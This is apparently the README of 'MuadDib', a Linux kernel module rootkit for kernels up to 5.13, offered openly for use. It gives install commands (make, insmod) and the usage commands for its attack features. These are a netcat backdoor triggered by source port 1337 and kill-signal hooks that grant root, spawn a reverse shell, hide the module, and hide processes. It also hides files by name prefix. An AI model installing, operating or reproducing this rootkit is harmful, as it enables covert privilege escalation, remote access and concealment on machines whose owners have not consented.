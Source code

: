 # MuadDib
Linux Kernel Module (LKM) Rootkit that works with linux kernel versions 5.13 and (hopefully) below.

## Installation
Just run the Makefile and insert the module.
```
make
insmod muadDib.ko
```
## Usage
### Accept Backdoor
To remotely get a shell, send a request from a specified source port (default 1337)
```
nc xxx.xxx.xxx.xxx 22 -p 1337
```
### Get root
When on the machine, root can be acquired via kill hook
```
kill -64 9999
```
Any PID works
### Spawn reverse shell
Also works using kill hook
```
kill -42 9999
```
### Hide muadDib LKM
Again, using kill
```
kill -43 9999
```
When hidden, running this again will show it
### Hide Process
```
kill -44 [PID to hide]
```
### Hide files
All files containing PREFIX [default MUADDIB] are hidden
### Misc
There is also a mkdir and execve hook just as a POC, have not found a use yet.
## Tested on
Ubuntu 20.04.1 x86_64 Linux 5.13.0

## Resources/References:
	https://xcellerator.github.io/
	https://github.com/xcellerator/linux_kernel_hacking
	https://github.com/ilammy/ftrace-hook
	https://github.com/h3xduck/Umbra

